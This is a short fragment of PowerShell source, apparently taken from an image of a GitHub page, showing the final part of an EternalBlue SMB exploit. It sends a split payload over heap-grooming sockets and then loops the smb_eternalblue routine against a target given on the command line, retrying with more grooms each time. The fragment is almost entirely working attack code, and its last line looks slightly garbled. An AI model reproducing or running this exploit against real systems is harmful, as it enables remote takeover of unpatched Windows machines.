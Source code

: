      }
     catch {
      # # Write-Verbose "socket error, exploit may fail horribly"
     }


      # # Write-Verbose "Send the payload with the grooms"

     foreach ($gsock in $groom_socks)
     {
        $gsock.Send($payload_body_pkt[0..2919]) | out-null
     }
        foreach ($gsock in $groom_socks)
     {
        $gsock.Send($payload_body_pkt[2920..4072]) | out-null
     }
         foreach ($gsock in $groom_socks)
     {
        $gsock.Close() | out-null
     }

     $sock.Close()| out-null
  }




$VerbosePreference = "continue"

for ($i=0; $i -lt $MaxAttempts; $i++) {
    $grooms = $InitialGrooms + $GROOM_DELTA*$i
    smb_eternalblue $Target $grooms $Shellcode
}



}
$Target=$args[0]
Myfun $Target- 
